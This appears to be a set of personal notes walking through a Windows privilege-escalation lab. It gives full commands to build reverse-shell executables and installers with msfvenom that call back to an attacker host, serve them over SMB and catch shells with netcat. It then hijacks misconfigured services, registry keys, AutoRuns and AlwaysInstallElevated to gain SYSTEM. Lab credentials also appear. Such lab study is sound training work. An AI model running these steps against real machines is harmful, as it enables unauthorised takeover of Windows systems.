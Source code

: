 # Windows Privesc

### Connecting with RDP Port 3389

```text
xfreerdp /u:user /p:password321 /cert:ignore /v:10.10.34.38
```

### Making SMB Server to send Rev-shell

Generate a reverse shell executable \(reverse.exe\) using msfvenom.

```text
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=53 -f exe -o reverse.exe
```

Transfer the reverse.exe file to the C:\PrivEsc directory on Windows. There are many ways you could do this, however the simplest is to start an SMB server on Kali in the same directory as the file, and then use the standard Windows copy command to transfer the file.

On Kali, in the same directory as reverse.exe:

`sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .`

On Windows \(update the IP address with your Kali IP\):

`copy \\10.10.10.10\kali\reverse.exe C:\PrivEsc\reverse.exe`

Test the reverse shell by setting up a netcat listener on Kali:

`sudo nc -nvlp 53`

Then run the reverse.exe executable on Windows and catch the shell:

`C:\PrivEsc\reverse.exe`

![](.gitbook/assets/image%20%2840%29.png)

### Service Exploits - Insecure Service Permissions

Use accesschk.exe to check the "user" account's permissions on the "daclsvc" service:

`C:\PrivEsc\accesschk.exe /accepteula -uwcqv user daclsvc`

![](.gitbook/assets/image%20%2841%29.png)

Note that the "user" account has the permission to change the service config \(SERVICE\_CHANGE\_CONFIG\).

Query the service and note that it runs with SYSTEM privileges \(SERVICE\_START\_NAME\):

`sc qc daclsvc`

![](.gitbook/assets/image%20%2842%29.png)

Modify the service config and set the BINARY\_PATH\_NAME \(binpath\) to the reverse.exe executable you created:

`sc config daclsvc binpath= "\"C:\PrivEsc\reverse.exe\""`

Start a listener on Kali and then start the service to spawn a reverse shell running with SYSTEM privileges:

`net start daclsvc`

### Service Exploits - Unquoted Service Path

Query the "unquotedsvc" service and note that it runs with SYSTEM privileges \(SERVICE\_START\_NAME\) and that the BINARY\_PATH\_NAME is unquoted and contains spaces.

`sc qc unquotedsvc`

Using accesschk.exe, note that the BUILTIN\Users group is allowed to write to the C:\Program Files\Unquoted Path Service\ directory:

`C:\PrivEsc\accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"`

Copy the reverse.exe executable you created to this directory and rename it Common.exe:

`copy C:\PrivEsc\reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe"`

Start a listener on Kali and then start the service to spawn a reverse shell running with SYSTEM privileges:

`net start unquotedsvc`

### Service Exploits - Weak Registry Permissions

Query the "regsvc" service and note that it runs with SYSTEM privileges \(SERVICE\_START\_NAME\).

`sc qc regsvc`

Using accesschk.exe, note that the registry entry for the regsvc service is writable by the "NT AUTHORITY\INTERACTIVE" group \(essentially all logged-on users\):

`C:\PrivEsc\accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc`

Overwrite the ImagePath registry key to point to the reverse.exe executable you created:

`reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f`

Start a listener on Kali and then start the service to spawn a reverse shell running with SYSTEM privileges:

`net start regsvc`

### Service Exploits - Insecure Service Executables

Query the "filepermsvc" service and note that it runs with SYSTEM privileges \(SERVICE\_START\_NAME\).

`sc qc filepermsvc`

Using accesschk.exe, note that the service binary \(BINARY\_PATH\_NAME\) file is writable by everyone:

`C:\PrivEsc\accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\filepermservice.exe"`

Copy the reverse.exe executable you created and replace the filepermservice.exe with it:

`copy C:\PrivEsc\reverse.exe "C:\Program Files\File Permissions Service\filepermservice.exe" /Y`

Start a listener on Kali and then start the service to spawn a reverse shell running with SYSTEM privileges:

`net start filepermsvc`

### Registry - AutoRuns

Query the registry for AutoRun executables:

`reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run`

Using accesschk.exe, note that one of the AutoRun executables is writable by everyone:

`C:\PrivEsc\accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\program.exe"`

Copy the reverse.exe executable you created and overwrite the AutoRun executable with it:

`copy C:\PrivEsc\reverse.exe "C:\Program Files\Autorun Program\program.exe" /Y`

Start a listener on Kali and then restart the Windows VM. Open up a new RDP session to trigger a reverse shell running with admin privileges. You should not have to authenticate to trigger it, however if the payload does not fire, log in as an admin \(admin/password123\) to trigger it. Note that in a real world engagement, you would have to wait for an administrator to log in themselves!  
`rdesktop 10.10.64.1`

### Registry - AlwaysInstallElevated

Query the registry for AlwaysInstallElevated keys:

`reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated  
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated`

Note that both keys are set to 1 \(0x1\).

On Kali, generate a reverse shell Windows Installer \(reverse.msi\) using msfvenom. Update the LHOST IP address accordingly:

`msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=53 -f msi -o reverse.msi`

Transfer the reverse.msi file to the C:\PrivEsc directory on Windows \(use the SMB server method from earlier\).

Start a listener on Kali and then run the installer to trigger a reverse shell running with SYSTEM privileges:

`msiexec /quiet /qn /i C:\PrivEsc\reverse.msi`

